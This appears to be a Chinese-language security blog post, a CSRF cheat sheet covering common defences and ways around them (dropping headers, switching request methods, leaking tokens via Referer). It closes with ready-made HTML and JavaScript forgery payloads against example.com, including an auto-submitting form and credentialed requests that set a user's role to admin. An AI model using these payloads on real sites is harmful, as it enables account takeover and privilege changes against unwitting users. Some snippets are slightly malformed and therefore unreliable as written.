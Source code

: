 ```yaml
---
layout: post
title:  CSRF cheat sheets
date: 2019-1-8 22:02:24.000000000 +08:00
---
```

#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer
-	XRSF Header
-	verify code
-	Seesions timeout
....



# 关于Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接
---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`
---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
其实直修改了请求方式吧GET改成了POST 同样的漏洞挖也挖到过一次，我还把POST的参数通过GET传入，但是也成功完成了CSRF
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET
---
盗取！
从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 在利用CSRF token进行CSRF攻击
---







# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```


